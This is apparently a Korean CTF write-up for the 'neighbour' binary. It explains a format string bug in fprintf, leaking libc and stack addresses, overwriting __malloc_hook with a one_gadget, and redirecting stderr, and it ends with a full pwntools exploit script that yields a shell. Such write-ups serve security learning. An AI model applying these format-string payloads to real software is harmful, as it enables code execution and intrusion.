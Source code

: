 # 문제
***

neighbour 바이너리의 checksec 결과는 다음과 같다. 
```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled
```

file 명령어의 결과는 다음과 같다.
```
neighbour: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=fedb3f3faea895f3fb4bb28804602fce6815e81e, stripped
```

바이너리 코드

__sub_937()__
```
void __noreturn sub_937()
{
    ...
    sub_8D0(stderr);
}
```

__sub_8D0()__ 
```
void __fastcall __noreturn sub_8D0(FILE *a1)
{
    while( fgets(format, 256, stdin) )
    {
        fprintf(a1, format);
            sleep(1u);
    }
    exit(1);
}
```

기능과 취약점은 매우 간단하다. fgets로 받은 입력을 fprintf를 통해서 stderr에 출력하는데 fprintf에 Format String Bug가 존재한다. <br/>

64bit의 경우 함수의 인자가 6개가 넘어가면 스택을 통해서 인자를 전달한다. 따라서 fprintf에 서식 문자를 5개 이상 넣으면 스택에 접근할 수 있다. <br/>

따라서 FSB를 이용해 스택에 있는 값을 변경하고 변경한 값을 참조해서 메모리의 특정 영역에 있는 값을 overwrite할 수 있다. <br/>

하지만 neighbour 바이너리는 FULL RERLO가 옵션이 설정되어 있기 때문에 got overwrite가 불가능하다. <br/>

fprintf는 출력하는 문자열의 길이가 길면 내부적으로 malloc을 호출한다. (malloc은 fprintf 함수에 의해 호출되는 vfprintf에서 호출됨) <br/>

GNU C library는 malloc, realloc, free에 hook을 제공한다. (이는 hook 값을 변경 가능하도록 하여 디버깅을 수월하게 할 수 있도록 하기 위함이다.) 위의 함수들은 호출되면 hook이 존재하는지 확인하고 만약 존재하면 hook에 저장되어 있는 값을 호출한다. 따라서 hook을 one_gadget으로 덮어쓰면 쉘을 획득할 수 있다. <br/><br/>

## exploit 방법
1. 스택에 존재하는 _IO_2_1_stderr_와 sfp를 통해서 libc와 스택 주소를 leak할 수 있다. 
2. libc leak을 통해서 __malloc_hook의 주소를 알아내고 스택에 __malloc_hook의 주소를 만든다. one_gadget과 hook에 저장되어 있는 값은 상위 4바이트 값이 동일하다. 따라서 하위 4바이트만 덮어쓰면 되는데 한 번에 4바이트 값을 덮어쓰면 fprintf에서 너무 많은 문자열이 출력되어서 fprintf가 터져버린다. 이를 방지하기 위해서 스택에 __malloc_hook 주소와 __malloc_hook+2의 주소를 만든다.
3. 스택에 만든 __malloc_hook 주소와 __malloc_hook+2의 주소를 참조해서 __malloc_hook의 값을 one_gadget의 주소로 덮어쓴다. (one_gadget의 constraint가 [rsp+0x70] == NULL이었는데 다행이 해당 위치에 NULL 값이 있었다.) 

<br/><br/>

c.f) remote 환경에서는 stderr에 fprintf를 하면 나에게 출력이 오지 않는다. 따라서 stderr를 stdout으로 바꿔줘야 한다. 방법은 다음과 같다. <br/>
stderr->_fileno가 2로 설정되어 있는데 이 값을 1으로 덮어써주면 stderr를 stdout으로 바꿀 수 있다. stderr->_fileno는 stderr + 112 에 위치하고 있다. (혁이꺼 블로그 참조)  
<br/>
이 문제에서는 stack에 stderr 값이 존재하기 때문에 이 값 (하위 1바이트 0x40으로 고정)에 112 (0x70)를 더해준 값을 해당 위치에 덮어쓴다. 이를 위해서 스택에 stderr를 가리키는 값을 만들어줘야 하는데 5 - 8 비트가 랜덤이어서 확률이 1/16이 된다.


<br/><br/>
__malloc_hook을 덮어쓰는 방법 외에도 fprintf ret 값을 one_gadget으로 덮어쓰는 방법이 있다. (혁이 방법은 libc의 stdin에 있는 _IO_jump_t vtable을 덮어쓰는 건데 이건 아직 잘 모르겠다...이 방법은 libc에서 vtable을 검증하는 IO_validate_vtable을 호출해서 dl_open_hook도 덮어줘야 한다는데...나중에 찾아보도록 하자ㅋㅋㅋ)
<br/><br/>
# 풀이
***
```
#!/usr/bin/python

from pwn import *
import time

file_path="/home/sungyun/round3/neighbour_c/neighbour"

def send_pay(pay):
	p.sendline(pay+"end")
	while "end" not in p.recv(0x1000):
 		pass

	print "send complete"

#p=remote("localhost",7777)
p=process(file_path,env={"LD_PRELOAD" : "/home/sungyun/round3/neighbour_c/libc.so.6"})
#libc=ELF("/home/sungyun/round3/neighbour_c/libc.so.6")

p.recvuntil("mayor.\n")

p.sendline("%12llx"*9)
p.recv(12*5)

stderr=int(p.recv(12),16)

p.recv(24)

stack=int(p.recv(12),16)-40
low2_stack=int(hex(stack)[10:],16)

#find with readelf -s command
#libc_base=stderr-0x3c2520  # libc_old_ver
libc_base=stderr-0x3c5540

#one_gad=libc_base+0xf24cb # constraint => [rsp+0x60] == NULL #libc_old_ver
one_gad=libc_base+0xf1147 # constraint => [rsp+0x70] == NULL
hi_one_gad=int(hex(one_gad)[6:10],16)
low_one_gad=int(hex(one_gad)[10:],16)

#malloc_hook=libc_base+0x3c1af0 #libc_old_ver
malloc_hook=libc_base+0x3c4b10
low_m_hook=int(hex(malloc_hook)[10:],16)
hi_m_hook=int(hex(malloc_hook)[6:10],16)

pay="%12llx"*7
pay+="%"+str(low2_stack-12*7)+"llx"
pay+="%hn"

send_pay(pay)

pay2="%12llx"*9
pay2+="%"+str(low_m_hook-12*9)+"llx"
pay2+="%hn"

send_pay(pay2)

pay3="%12llx"*7
pay3+="%"+str(low2_stack-12*7+64)+"llx"
pay3+="%hn"

send_pay(pay3)

pay4="%12llx"*9
pay4+="%"+str(low_m_hook-12*9+2)+"llx"
pay4+="%hn"

send_pay(pay4)

pay5="%12llx"*7
pay5+="%"+str(low2_stack-12*7+64+2)+"llx"
pay5+="%hn"

send_pay(pay5)

pay6="%12llx"*9
pay6+="%"+str(hi_m_hook-12*9)+"llx"
pay6+="%hn"

send_pay(pay6)

pay7="%12llx"*4
pay7+="%"+str(low_one_gad-48)+"llx"
pay7+="%hn"
pay7+="%12llx"*6

if hi_one_gad > (low_one_gad+72):
	pay7+="%"+str(hi_one_gad-(low_one_gad+72))+"llx"
else:
	pay7+="%"+str(0x10000+hi_one_gad-(low_one_gad+72))+"llx"

pay7+="%hn"

send_pay(pay7)

p.sendline("%1000000llx")  # fprintf use malloc when large input comes

p.interactive()
```

